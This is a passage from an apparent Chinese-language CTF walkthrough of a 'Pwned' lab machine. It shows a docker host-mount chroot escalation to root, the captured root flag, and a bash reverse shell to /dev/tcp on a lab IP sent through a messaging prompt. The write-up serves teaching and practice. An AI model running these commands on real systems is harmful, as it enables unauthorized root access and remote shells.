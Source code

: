 > --rm 这个选项表示当容器退出时，Docker将自动删除该容器。这通常用于那些你只想运行一次并立即删除的容器
>
> chroot /mnt sh  这是容器内的命令,将/mnt目录作为根目录，sh就是起一个shell

利用docker挂载/目录到容器的/mnt目录，直接读取文件

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# whoami
root
# cd /root
# cat root.txt
4d4098d64e163d2726959455d046fd7c


You found me. i dont't expect this （◎ . ◎）

I am Ajay (Annlynn) i hacked your server left and this for you.

I trapped Ariana and Selena to takeover your server :)


You Pwned the Pwned congratulations :)

share the screen shot or flags to given contact details for confirmation 

Telegram   https://t.me/joinchat/NGcyGxOl5slf7_Xt0kTr7g

Instgarm   ajs_walker 

Twitter    Ajs_walker
```

拿到root.txt

### 另外

利用pwncat反弹shell

```bash
Welcome to linux.messenger 


ariana:
selena:
ftpuser:

Enter username to send message : 1

Enter message for 1 :bash

Sending message to 1 
bash -i >& /dev/tcp/192.168.56.101/1234 0>&1
```
